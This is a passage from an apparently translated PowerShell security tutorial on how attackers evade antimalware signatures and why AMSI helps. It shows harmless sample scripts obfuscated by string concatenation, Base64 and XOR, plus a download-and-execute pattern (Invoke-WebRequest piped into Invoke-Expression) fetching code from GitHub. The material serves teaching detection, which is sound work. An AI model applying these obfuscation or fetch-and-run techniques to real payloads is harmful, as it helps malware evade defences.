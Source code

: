 ```
function Invoke-MaliciousScript {
    $a = 4
    $output = "Y0" + "u g" + "0t h" + $a + "ck" + ($a - 1) + "d!"
    Write-Host $output
}
Invoke-MaliciousScript
```

旧的签名通过仅仅搜索字符串已不再匹配。为了应对这一变化，防御者开始构建简单的语言模拟。例如，如果发现某个字符串是由多个子字符串连接而成，新算法会模拟这种连接并与任何恶意模式进行匹配。

## 示例 3

此时，攻击者会尝试转向更复杂的方法——例如，通过使用 Base64 编码他们的有效载荷，并在运行脚本时解码，如下所示。`"WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"` 字符串表示我们之前字符串`"Y0u** **g0t h4ck3d!"`的 Base64 编码版本：

```
function Invoke-MaliciousScript {
    $string = "WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"
    $output = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($string))
    Write-Host $output
}
Invoke-MaliciousScript
```

但大多数反恶意软件程序幸运地已经实现了某种 Base64 解码仿真，因此大多数**反病毒**（**AV**）引擎仍然会捕捉到这个示例。

结果，攻击者会尝试想出更困难的方式来使检测变得更加困难 - 例如使用算法混淆。

## Example 4

对于以下示例，我已经使用简单的异或算法对我们的`"Y0u g0t h4ck3d!"`攻击字符串进行了编码，得到了`"SyJnMnUiZjJ6JnF5IXYz"`编码后的字符串。使用以下函数，我们可以使用`XOR`密钥`0x12`将字符串转换回原始模式：

```
function Invoke-MaliciousScript {
    $string = "SyJnMnUiZjJ6JnF5IXYz"
    $key = 0x12
    $bytes = [System.Convert]::FromBase64String($string)
    $output = -join ($bytes | ForEach-Object { [char] ($_ -bxor $key)})
    Write-Host $output
}
Invoke-MaliciousScript
```

现在，这个示例比普通反恶意软件引擎能够仿真的任何内容都要高级得多。因此，如果没有进一步的机制（如 AMSI），我们将无法检测到此脚本的操作。当然，防御者可以编写签名来检测混淆的脚本。

## Example 5

但是如果脚本看起来只是一个正常的、行为良好的脚本，但最终却从网络下载并在本地执行恶意内容，就像以下示例一样，你如何为其编写签名呢？

```
function Invoke-MaliciousScript {
    $output = Invoke-WebRequest https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter12/AMSIExample5.txt
    Invoke-Expression $output
}
Invoke-MaliciousScript
```
